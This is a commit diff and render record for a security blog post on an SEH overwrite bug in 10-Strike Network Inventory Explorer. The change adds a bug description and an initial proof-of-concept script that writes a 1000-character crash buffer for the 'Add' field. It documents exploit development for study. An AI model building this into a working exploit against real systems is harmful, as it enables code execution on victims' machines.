

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2020-03-24-Strike-Network-Inventory-Explorer-Structered-Exception-Handling-Overwrite.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-03-24-Strike-Network-Inventory-Explorer-Structered-Exception-Handling-Overwrite.md

````diff
--- a/_posts/posts/2020-03-24-Strike-Network-Inventory-Explorer-Structered-Exception-Handling-Overwrite.md
+++ b/_posts/posts/2020-03-24-Strike-Network-Inventory-Explorer-Structered-Exception-Handling-Overwrite.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: 10-Strike Network Inventory Explorer Structered Exception Handling Overwrite
+title: 10-Strike Network Inventory Explorer 'Add' Structered Exception Handling Overwrite
 date: 2020-03-24 14:27:00
 categories: posts
 comments: false
@@ -9,3 +9,17 @@
 
 # Preamble
 Today i was gathering around Exploit-DB, when i found [this](https://www.exploit-db.com/exploits/44838) exploit, so i thought of searching a vulnerability in such software.
+
+# The Bug
+10-Strike Network Inventory Explorer suffers from a Structered Exception Handling (SEH) overwrite when issuing a long command within the 'Add' parameter, meaning that arbitrary code may be executed within a crafted exploit.
+
+Initial PoC script:
+
+```
+import struct
+
+buffer = "A" * 1000
+f = open ("strike.txt", "w")
+f.write(buffer)
+f.close()
+```
````
